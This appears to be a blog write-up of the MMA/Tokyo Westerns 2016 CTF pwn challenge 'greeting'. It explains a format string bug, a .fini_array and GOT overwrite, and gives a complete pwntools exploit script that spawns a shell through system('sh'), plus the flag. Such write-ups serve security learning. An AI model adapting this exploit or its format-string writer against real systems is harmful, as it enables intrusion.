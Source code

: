 title: MMA 2nd CTF 2016 -- greeting
tags:
  - MMA
  - CTF
  - format_string
  - Python
  - Pwnable
categories:
  - write-ups
author: bruce30262
date: 2016-09-12 15:49:00
---
**Category:** pwn
**Points:** 150  

<!-- more -->  
  
After a long period of time without playing any CTF, I finally finished my master's degree and have time to enjoy some CTF challenges. And then there is the **Tokyo Western/MMA 2nd CTF**, the first CTF I played in 2016.  
  
The challenge gave us a 32 bit ELF. The program will first use `system` to echo some message, then it will ask us to input our name, and print the greeting message. We can see that there exist a format string vulnerability in the main function:  
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
    int result; // eax@2
    int v4; // edx@4
    int v5; // [sp+1Ch] [bp-84h]@2
    int v6; // [sp+5Ch] [bp-44h]@1
    int v7; // [sp+9Ch] [bp-4h]@1

    v7 = *MK_FP(__GS__, 20);
    printf("Please tell me your name... ");
    if ( getnline((char *)&v6, 64) )
    {
        sprintf((char *)&v5, "Nice to meet you, %s :)\n", &v6);
        result = printf((const char *)&v5); // <-- format string 
    }
    else
    {
        result = puts("Don't ignore me ;( ");
    }
    v4 = *MK_FP(__GS__, 20) ^ v7;
    return result;
}
```

As we can see that the program ends directly after it print out the greeting message, so it's kind of hard for us to do the GOT hijacking attack. After discussing with my teammate, we found that there's one more place we can overwrite the function pointer: **the `.fini_array` section**.  
  
So, we can first overwrite the **first entry** of the `.fini_array` section and hijack the control flow. Notice that we can only input 64 bytes characters, and that's kind of hard for us to write both `system`'s address and `sh`'s string into the memory buffer. Here's what we can do :  
  
* Overwrite both `.fini_array` section and `strlen`'s GOT entry. We replace the first entry of the `.fini_array` section into **main function's address**, while `strlen`'s GOT entry be changed into `system`'s PLT.  
* The program will then return to the main function. Since `strlen`'s GOT has already been changed into `system`'s address, we can then input `sh` and execute `system("sh")` during the `getnline` function (the function will call `strlen` on our input).  

```python exp_greeting.py
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST = "pwn2.chal.ctf.westerns.tokyo"
PORT = 16317
ELF_PATH = "./greeting"
LIBC_PATH = ""

# setting 
context.arch = 'i386'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32
# ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.log_level = 'INFO'

elf = ELF(ELF_PATH)

def my_recvuntil(s, delim):
    res = ""
    while delim not in res:
        c = s.recv(1)
        res += c
        sys.stdout.write(c)
        sys.stdout.flush()
    return res

def myexec(cmd):
    return subprocess.check_output(cmd, shell=True)

def fmtstr(payload, prints, index, data, byte=1):
    """
    data: data that want to be written into the address
    index: stack position (ex. %7$n --> index = 7)
    prints: total charaters that have been print out
    payload: whole payload string, initial value are addresses

    ex.  payload = p32(addr) + p32(addr2) + p32(addr3)
         prints = 12
         payload, prints = fmtstr(payload, prints, 7, 0xa0a0, 2)
         payload, prints = fmtstr(payload, prints, 8, 0xc0, 1)
         payload, prints = fmtstr(payload, prints, 9, 0x08047654, 4)
    """

    if data - prints > 0:
        num = data - prints
    else:
        num = data + 256**byte - prints
        while(num <= 0):
            num += 256**byte
    
    payload += "%" + str(num) + "c" 
    prints = data

    if byte == 1:
        payload += "%" + str(index) + "$hhn"
    elif byte == 2:
        payload += "%" + str(index) + "$hn"
    elif byte == 4:
        payload += "%" + str(index) + "$n"
    elif byte == 8:
        payload += "%" + str(index) + "$lln"

    return payload, prints

def fmtstr_scan(cnt):
    return '.'.join( "%"+str(i)+"$p" for i in xrange(1,cnt+1))

if __name__ == "__main__":

    r = remote(HOST, PORT)
    #r = process(ELF_PATH)

    payload = "AA"+p32(0x08049934) + p32(elf.got['strlen']) + p32(elf.got['strlen']+2) 
    prints = len(payload) + 18
    payload, prints = fmtstr(payload, prints, 12, 0x85ed, 2)
    payload, prints = fmtstr(payload, prints, 13, 0x8490, 2)
    payload, prints = fmtstr(payload, prints, 14, 0x0804, 2)
    print payload
    print len(payload)

    r.sendlineafter("... ", payload)
    r.sendlineafter("... ", "sh\x00")

    r.interactive()
```
  
flag: `TWCTF{51mpl3_FSB_r3wr173_4nyw4r3}`

